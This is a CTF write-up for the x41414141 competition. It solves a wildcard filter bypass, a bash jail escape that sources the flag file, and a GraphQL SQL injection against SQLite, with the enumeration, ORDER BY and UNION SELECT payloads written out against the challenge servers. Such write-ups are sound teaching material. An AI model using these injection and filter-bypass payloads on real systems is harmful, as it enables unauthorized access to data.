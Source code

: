 ```yaml
---
title: "x41414141 CTF Writeup"
date: 2020-12-20 00:05:00 -0800
categories: [CTF, writeup]
tags: [writeup, web]
toc: true
---
```


> Blockchain-focused CTF, hosted by Offshift

## Introduction

x41414141 CTF is sponsored by Offshift, and the challenge creators are the mods from John Hammond's Discord server. I played with IrisSec.

## Pin Code (Entry Challenge)

On the main page of the CTF, there is a GIF with Offshift (the sponsor)'s logo. Downloading the GIF, I run strings on it. There is one string with the word "Secret" followed by a binary string.

I take the binary number and convert it to decimal, and I can use it as a pin for the website.

## File Reader (77 Solves)

> hello guys, I started this new service check note.txt file for a sanity check 207.180.200.166 2324

It asks me for a file to read, and I want to read /flag.txt.

They filtered out the word ``flag`` when reading files. I could bypass this using the ? wildcard character, or by using *. 

Potential Solutions

```
/????.txt
/????.???
/fl*.txt
```

## SH Jail (36 Solves)

We get source code, showing off a filter and showing that flag.txt was marked as 555, or readable and executable.

Using this, we can bypass the filter to "run" the text file in bash and it will show the "command" or the line/flag in the file.

When we bypass the filter, our output is executed. So we can do something like this:

```
. flag.[a-z][a-z][a-z]
```

This will leak the flag:

```
flag.txt: line 1: flag{w3ll_th1s_f1l3_sh0uldnt_h4v3_fl4g_1n_2738372131}: command not found
[0;32mThe command has been executed. Let's go again![0m
```

> flag{w3ll_th1s_f1l3_sh0uldnt_h4v3_fl4g_1n_2738372131}


## Graphed 2.0 (120 Solves)

Got help from someone but i was close :(

The premise of the challenge is GraphQL-based SQLi.

First, some enumeration.

```
http://45.134.3.200:8080/graphql?query={__schema{types{name,fields{name}}}}
```

This got me all the information I needed about edges/nodes/options in order to enumerate further.

```
http://45.134.3.200:8080/graphql?query={coolNotes{body}}
http://45.134.3.200:8080/graphql?query={allNotes{edges{node{uuid,body}}}}
http://45.134.3.200:8080/graphql?query={allUsers{edges{node{uuid,%20username,%20id}}}}
http://45.134.3.200:8080/graphql?query={allUsers{edges{node{notes{edges{node{body}}}}}}}
http://45.134.3.200:8080/graphql?query={getNote{author{notes{edges{node{title}}}}}}
http://45.134.3.200:8080/graphql?query={allNotes{edges{node{title,%20body,%20id}}}} 
```

I went through everything, not much luck. Then someone pointed out there was a parameter query on Cool Notes, so like this:

```
{getNote(q:"query"){title, body}}
```

Where I return the title and body of each note that corresponds with my query.

Doing something like this:

```
{getNote(q:"'"){title, body}}
```

gives an sqlite 3 error. Epic, easy to do stuff from here.

Say we want to view all notes:

```
{getNote(q:"' or 1=1 or '"){title, body}}
```

So now we need to get the number of columns.

```
q: "' ORDER BY 1;--"
q: "' ORDER BY 2;--"
q: "' ORDER BY 3;--"
q: "' ORDER BY 4;--"
q: "' ORDER BY 5;--" - this one errored out
```

Now that we know that, we can do a union select to get all the table names.

Used this:

```
45.134.3.200:8080/graphql?query={getNote(q:"'or1=1unionselect1,group_concat(tbl_name),3,4FROMsqlite_master WHEREtype='table'andtbl_nameNOTlike'sqlite_%';--'"){title,body}}
```

Found table name ``العلم``.

Now I can select flag from the table (just guessed/assumed to select flag)

```
http://45.134.3.200:8080/graphql?query={getNote(q:"' or 1=1 union select 1,flag,3,4 FROM العلم ;-- '"){title, body}}
```

I could have gotten table names though with something like this:

```
' OR 1=1 UNION SELECT 1, sql, 3, 4 from sqlite_master WHERE name='العلم'--
```

> flag{h0p3_u_can't_r3@d_1t9176}

